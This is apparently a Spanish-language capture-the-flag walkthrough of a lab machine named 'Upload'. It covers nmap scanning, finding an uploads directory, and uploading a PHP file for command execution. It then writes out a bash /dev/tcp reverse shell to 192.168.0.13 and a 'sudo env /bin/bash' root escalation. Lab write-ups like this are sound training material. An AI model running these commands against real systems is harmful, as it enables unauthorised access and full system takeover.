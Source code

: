 # Upload

Tags: [[_webFuzzing]],[[_webExploitation]],[[_sudoersAbusing]]

Empezamos creando los directorios de trabajo.
Le hacemos un ping a la máquina.
Empezamos el escaneo con NMAP.

Hacemos un escaneo exhaustivo a los puertos.
En este caso solo es el puerto 80.

Vemos la versión de apache he investigamos el codename, el cual posiblemente sea Ubuntu Jammy.

El escaneo con NMAP dice que el encabezado de la web es de subir archivos.
En whatweb dice eso mismo.

Entremos a verla.

Es para subir un archivo, podemos pensar en una extensión .php, se ve que lo interpreta.

Empecemos con una prueba, también tengamos en cuenta que se deben almacenar en algún lado.

Subí un .txt, pero claro, no sé dónde se almacena, podemos pensar en fuzzear.

Se ve que hay una ruta "uploads".
Tiene directory listing.
Puedo ver el contenido de mi archivo .txt

Ahora hagamos uno con contenido php para ver si lo interpreta.

Y efectivamente, puedo ejecutar comandos en la máquina.

Gano acceso a la máquina.
Me pongo en escucha
nc -nlvp 443

En la web
cmd?=bash -c "bash -i >& /dev/tcp/192.168.0.13/443 0>&1"
URL-Encodeamos los '&'.

Ganamos acceso y hacemos el tratamiento de la tty.

Estamos como www-data.

Empezamos a anlizar todo.
Podemos ejecutar como root un binario.
Parece que las variables de entorno las ajusta.

Investiguemos en GTFOBINS

Si hago
sudo env /bin/bash
Me la spawnea como root.

De esta manera finalizamos.


